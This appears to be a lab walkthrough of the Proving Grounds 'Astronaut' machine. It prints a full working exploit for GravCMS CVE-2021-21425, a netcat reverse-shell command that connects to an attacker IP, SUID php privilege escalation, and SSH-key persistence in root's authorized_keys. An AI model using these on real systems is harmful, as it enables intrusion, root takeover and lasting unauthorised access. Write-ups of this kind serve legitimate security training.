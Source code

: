 # Astronaut

## Proving Grounds: Practice
------

> Beginning with a typical service and version scan with nmap, we find that only ports 22 (ssh) and 80 (http) are open. Additionally we are informed that there is a directory listing available, notably grav-admin.

### Nmap Results
------

```nmap-output

$ nmap 192.168.228.12 -sC -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-23 17:05 EDT
Nmap scan report for 192.168.228.12
Host is up (0.041s latency).
Not shown: 998 closed tcp ports (conn-refused)

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)

80/tcp open  http    Apache httpd 2.4.41
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
|-     2021-03-17 17:46  grav-admin/
|_
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.52 seconds
```


> Enumerating the website, we in fact find that there is a content management system in use, Grav-CMS.


![image](https://github.com/user-attachments/assets/0d45e3e0-b7ae-4582-9fb7-573951440855)


![image](https://github.com/user-attachments/assets/cc0904c2-185e-4a2b-a47d-6564ca5e889b)


A quick search for related exploits turns up an interesting find. 


### GravCMS Unauthenticated Arbitrary YAML Write/Update leads to Code Execution (CVE-2021-21425)
------

```
https://github.com/CsEnox/CVE-2021-21425
```


### Exploit
------

```python

#!/usr/bin/python

import requests
from bs4 import BeautifulSoup
from time import sleep
import urllib.parse
import argparse

parser = argparse.ArgumentParser(description='Grav Admin 1.7.10 RCE')
parser.add_argument('-c', help='Command', required=True)
parser.add_argument('-t', help='URL (Eg: http://grav.local)', required=True)
args = parser.parse_args()

url = args.t
cmd = args.c
cmd = urllib.parse.quote(cmd)

session = requests.Session()

# Getting Nonce
r = session.get(url+'/admin')
soup = BeautifulSoup(r.text, features="lxml")
a = str(soup.findAll('input')[3])
nonce = a[47:79]

# Creating File
print("[*] Creating File")
payload = f'admin-nonce={nonce}&task=SaveDefault&data[custom_jobs][vwlya][command]=/usr/bin/echo&data[custom_jobs][vwlya][args]={cmd}&data[custom_jobs][vwlya][at]=%2a%20%2a%20%2a%20%2a%20%2a&data[custom_jobs][vwlya][output]=/tmp/shell.sh&data[status][vwlya]=enabled&data[custom_jobs][vwlya][output_mode]=overwrite'
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
r = session.post(url+'/admin/config/scheduler',data=payload,headers=headers)

if "Invalid Security Token" in r.text:
	exit("Exploit failed :(")
else:
	print("Scheduled task created for file creation, wait one minute")
	sleep(60)

# Running File
print("[*] Running file")
payload = f'admin-nonce={nonce}&task=SaveDefault&data[custom_jobs][vwlya][command]=/bin/bash&data[custom_jobs][vwlya][args]=/tmp/shell.sh&data[custom_jobs][vwlya][at]=%2a%20%2a%20%2a%20%2a%20%2a&data[custom_jobs][vwlya][output]=&data[status][vwlya]=enabled&data[custom_jobs][vwlya][output_mode]=overwrite'
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
r = session.post(url+'/admin/config/scheduler',data=payload,headers=headers)

if "Invalid Security Token" in r.text:
	exit("Exploit failed :(")
else:
	print("Scheduled task created for command, wait one minute")
	sleep(60)

print("Exploit completed")
```


> Setting our listener to port 4444. Then sending the exploit command.


![image](https://github.com/user-attachments/assets/ada695c3-222f-427f-961f-c7dee3ccdf58)


### Command Line
------

```
python3 exploit.py -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.21.153 4444 >/tmp/f' -t http://192.168.207.12/grav-admin
```


> We get a reverse shell, as www-data.


![image](https://github.com/user-attachments/assets/14e3bca3-8656-4e09-b26a-48b350817cb6)


### Stabilize Shell
------

```
export TERM=xterm;python3 -c 'import pty;pty.spawn("/bin/bash")'
```


![image](https://github.com/user-attachments/assets/bb1e2a10-7faf-40fb-abd8-7ddfbf7a2f10)


> We cannot check for sudo rights on www-data because we don't have the password. But we can search for binaries that may have the SUID bit set.

### SUID Hunting
------

```
find / -perm -u=s 2>/dev/null
```
<br>

![image](https://github.com/user-attachments/assets/71cc304e-6c4b-4679-88a9-609b05ad1bba)


> Checking out the findings on GTFOBins php seems to be a great candidate for Privilege Escalation.


### Escalate Privileges
------

```shell
/usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
```


![image](https://github.com/user-attachments/assets/4bcce87e-17d0-4de1-9c29-1a4e3eed8e1a)


> Now that we have root access, we can submit the proof of pwnage. Additionally we can have persistence on the machine by adding our public key to the authorized_keys file, though that is unnecessary.


### Persistence via SSH

```
cd /root/.ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTNoNoNoB5vEuE2CVK/0/xPnhxWfBWGj" >> authorized_keys
```